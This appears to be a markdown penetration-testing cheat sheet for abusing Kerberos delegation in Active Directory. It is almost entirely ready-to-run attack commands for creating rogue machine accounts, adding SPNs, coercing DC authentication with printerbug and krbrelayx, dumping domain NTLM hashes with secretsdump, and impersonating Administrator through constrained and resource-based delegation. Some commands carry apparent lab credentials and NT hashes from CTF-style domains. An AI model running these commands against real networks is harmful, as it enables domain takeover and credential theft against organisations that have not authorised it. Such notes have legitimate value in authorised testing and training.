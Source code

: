 ####  SeEnableDelegationPrivilege


- Chack the MAQ : 
```sh
nxc ldap $DOMAIN_CONTROLLER -d $DOMAIN -u $USER -p $PASSWORD -M maq
```

- Create a a computer Unconstrained Delegation (Powermad)
	```sh
Import-Module ./Powermad.ps1

New-MachineAccount -MachineAccount pwned -Password $(ConvertTo-SecureString '12345' -AsPlainText -Force)

Set-MachineAccountAttribute -MachineAccount pwned -Attribute useraccountcontrol -Value 528384

Set-MachineAccountAttribute -MachineAccount pwned -Attribute ServicePrincipalName -Value HTTP/pwned.delegate.vl -Append

Get-MachineAccountAttribute -MachineAccount pwned -Attribute ServicePrincipalName -Verbose
```

-  Create a a computer Unconstrained Delegation (Impacket)

```sh
addcomputer.py -dc-ip $t -computer-pass TestPassword321 -computer-name UwU delegate.vl/N.Thompson:'KALEB_2341'

addspn.py -u 'delegate.vl\N.Thompson' -p 'KALEB_2341' -s 'cifs/UwU.delegate.vl' -t 'UwU$' -dc-ip 10.10.85.247 DC1.delegate.vl --additional

addspn.py -u 'delegate.vl\N.Thompson' -p 'KALEB_2341' -s 'cifs/UwU.delegate.vl' -t 'UwU$' -dc-ip 10.10.85.247 DC1.delegate.vl

bloodyAD.py -u 'N.Thompson' -d 'delegate.vl' -p 'KALEB_2341' --host 'DC1.delegate.vl' add uac 'UwU$' -f TRUSTED_FOR_DELEGATION
```

#### Unconstrained Delegation
#ADS_UF_TRUSTED_FOR_DELEGATION
- Enumerate Uncontrained Delegation :
```sh
Get-NetComputer -Unconstrained #Powerview

Get-ADComputer -Filter {TrustedForDelegation -eq $True}
Get-ADUser -Filter {TrustedForDelegation -eq $True}
```

- Add SPN (Impacket) : 
```sh
addspn.py -u 'delegate.vl\N.Thompson' -p 'KALEB_2341' -s 'cifs/UwU.delegate.vl' -t 'UwU$' -dc-ip 10.10.85.247 DC1.delegate.vl --additional

addspn.py -u 'delegate.vl\N.Thompson' -p 'KALEB_2341' -s 'cifs/UwU.delegate.vl' -t 'UwU$' -dc-ip 10.10.85.247 DC1.delegate.vl
```

- Add SPN (Powermad) : 
```sh
Set-MachineAccountAttribute -MachineAccount pwned -Attribute ServicePrincipalName -Value HTTP/pwned.delegate.vl -Append

Get-MachineAccountAttribute -MachineAccount pwned -Attribute ServicePrincipalName -Verbose
```

- Grab CCache
```sh
dnstool.py -u 'delegate.vl\UwU$' -p TestPassword321 -r UwU.delegate.vl -d 10.8.3.12 --action add DC1.delegate.vl -dns-ip $t

krbrelayx.py -hashes :C7BE3644A2EB37C9BB1F248E9E0B9AFC

printerbug.py delegate.vl/'UwU$'@dc1.delegate.vl UwU.delegate.vl
```

- Dumping hashes
```sh
export KRB5CCNAME=`pwd`/'krbtgt.ccache
secretsdump.py -k DC1.delegate.vl -just-dc-ntlm
```

#### Constrained Delegation

#TRUSTED_TO_AUTH_FOR_DELEGATION

- Enumerate with powerview  : 
```sh
Get-DomainUser -TrustedToAuth | select userprincipalname, name, msds-allowedtodelegateto

Get-DomainComputer -TrustedToAuth | select userprincipalname, name, msds-allowedtodelegateto

Get-ADObject -Filter {msDS-AllowedToDelegateTo -ne "$null"} -Properties msDS-AllowedToDelegateTo
```

- Get a ticket : 
```sh
rubeus.exe asktgt /user:userName /domainDomainName /ntlm:Hash /outfile:FileName.tgt
```

- Impersonate Administrator : 
```sh
.\Rubeus.exe s4u /ticket:TGT_Ticket /msdsspn:"service/HOST" /impersonateuser:Administrator /ptt
```

- Check accounts with "Trusted for Delegation"
```sh
Get-ADUser -Filter {TrustedForDelegation -eq $true} -Property SamAccountName, TrustedForDelegation
```

- With linux :
```sh
getST.py tengu.vl/gMSA01$ -spn 'MSSQLSvc/SQL.tengu.vl:1433' -impersonate 'T1_M.WINTERS' -hashes :d4b65861e85773fba2035b31ebcacb37 -dc-ip DC.tengu.vl
#Look for user in the group 
```


#### RBCD( Resource-based constrained ) 

- With linux 
```sh
# Read the attribute
rbcd.py -delegate-to 'target$' -dc-ip 'DomainController' -action 'read' 'domain'/'PowerfulUser':'Password'

# Append value to the msDS-AllowedToActOnBehalfOfOtherIdentity
rbcd.py -delegate-from 'controlledaccount' -delegate-to 'target$' -dc-ip 'DomainController' -action 'write' 'domain'/'PowerfulUser':'Password'

getST.py -spn 'cifs/target' -impersonate Administrator -dc-ip 'DomainController' 'domain/controlledaccountwithSPN:SomePassword'
```

- With windows 
```sh
Rubeus.exe s4u /nowrap /impersonateuser:"administrator" /msdsspn:"cifs/target" /domain:"domain" /user:"controlledaccountwithSPN" /rc4:$NThash
```